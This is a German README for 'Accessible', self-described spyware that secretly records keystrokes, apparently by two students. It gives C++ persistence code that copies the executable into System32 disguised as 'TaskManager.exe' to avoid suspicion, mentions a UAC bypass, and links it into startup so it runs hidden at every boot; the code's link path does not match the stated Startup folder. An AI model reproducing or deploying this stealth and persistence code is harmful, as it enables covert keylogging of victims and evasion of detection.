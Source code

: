 # Readme: Accessible Spyware

Autoren: Deniz Kural, Rahul Gupta 3DHIT

Accessible ist eine Spyware, die Keylogs so unentdeckt wie möglich (Ring 3) abspeichert. Der Source Code sollte nicht falsch benutzt werden. 

### Autostart Funktion

**Path**

Hier wird der Path des Programs gelesen, mit hilfe der `GetModuleFileName` Methode.

Ein Beispiel wäre z.b. "C:\Users\Deniz\Documents\Accessible.exe"

```cpp
const unsigned int iMaxPathLength = 256;
char fileName[iMaxPathLength] = { 0 }; //filename (for example in downloads)
//Full path vom Programm bekommen
GetModuleFileName(NULL, fileName, iMaxPathLength);
```

**System32**

Hier wird die Executable nach System32 kopiert, damit sichergestellt wird, das sie immer als Admin ausgeführt wird. Das könnte man durch eine UAC-Umgehung erzielen.

Außerdem ist das Programm unter dem Namen "TaskManager.exe" im System32 Folder weniger suspekt. 

```cpp
//File nach System32 kopieren, und zu TaskManager umbenennen
LPCTSTR lpNewFileName = "C:\\Windows\\System32\\TaskManager.exe";
LPCTSTR copyFileName = (LPCTSTR)fileName;

BOOL bSuccess = CopyFile(copyFileName, lpNewFileName, FALSE);

if (!bSuccess) {
	cout << "Error while copying file to system32";
}
else {
	cout << "Copied file to system32";
}
```

**Create Symbolic Link:**

Hier wird das Programm mittels Symlink (.lnk) in den Startupfolder gegeben.
Bei jedem Systemstart wird das Programm automatisch im Hintergrund ausgeführt.

Pfad: 

C:\Users\Gugugaga\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

oder mittels WIN+R "shell:startup" zu erreichen.

```cpp
LPCTSTR targetPath = "C:\\Windows\\System32\\TaskManager.exe";
LPCTSTR symlinkPath = "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Administrative Tools\\Task Manager.lnk";

if (CreateSymbolicLink(symlinkPath, targetPath, 0) == 0) {
	std::cout << "Error creating symbolic link: " << GetLastError() << std::endl;
}
else {
	std::cout << "Symbolic link created successfully" << std::endl;
}
```

